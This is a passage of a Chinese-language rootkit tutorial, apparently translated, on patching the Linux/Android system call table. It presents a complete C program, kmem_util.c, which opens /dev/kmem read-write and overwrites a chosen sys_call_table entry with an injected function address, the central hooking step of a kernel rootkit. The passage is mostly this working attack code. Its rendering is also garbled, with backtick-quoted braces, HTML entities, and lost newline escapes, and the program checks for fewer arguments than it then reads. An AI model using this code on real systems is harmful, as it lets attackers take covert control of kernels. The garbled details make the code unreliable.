 **<br>**

**0x04 修改系统调用表**

现在，我们访问/dev/kmem来用我们注入的函数地址来覆盖sys_call_table中的原始函数的指针（这也能直接在内核模块中做，但是用/dev/kmem更加简单）。我参考了Dong-Hoon You的文章，但是我用文件接口代替nmap()，因为我发现会引起一些内核警告。用下面代码创建文件kmem_util.c：

```
#include &lt;stdio.h&gt; 
#include &lt;stdlib.h&gt;
#include &lt;fcntl.h&gt; 
#include &lt;asm/unistd.h&gt; 
#include &lt;sys/mman.h&gt;
#define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)
int kmem;
void read_kmem2(unsigned char *buf, off_t off, int sz)
`{`
  off_t offset; ssize_t bread;
  offset = lseek(kmem, off, SEEK_SET);
  bread = read(kmem, buf, sz);
  return; 
`}`
void write_kmem2(unsigned char *buf, off_t off, int sz) `{`
  off_t offset; ssize_t written;
  offset = lseek(kmem, off, SEEK_SET);
  if (written = write(kmem, buf, sz) == -1) `{` perror("Write error");
    exit(0);
  `}` 
  return;
`}`
int main(int argc, char *argv[]) `{`
  off_t sys_call_table;
  unsigned int addr_ptr, sys_call_number;
  if (argc &lt; 3) `{` 
    return 0;
  `}`
  kmem=open("/dev/kmem",O_RDWR);
  if(kmem&lt;0)`{`
    perror("Error opening kmem"); return 0;
  `}`
  sscanf(argv[1], "%x", &amp;sys_call_table); sscanf(argv[2], "%d", &amp;sys_call_number);
  sscanf(argv[3], "%x", &amp;addr_ptr); char buf[256];
  memset (buf, 0, 256); read_kmem2(buf,sys_call_table+(sys_call_number*4),4);
  printf("Original value: %02x%02x%02x%02xn", buf[3], buf[2], buf[1], buf[0]);       
  write_kmem2((void*)&amp;addr_ptr,sys_call_table+(sys_call_number*4),4);
  read_kmem2(buf,sys_call_table+(sys_call_number*4),4);
  printf("New value: %02x%02x%02x%02xn", buf[3], buf[2], buf[1], buf[0]);
  close(kmem);
  return 0; 
`}`
```
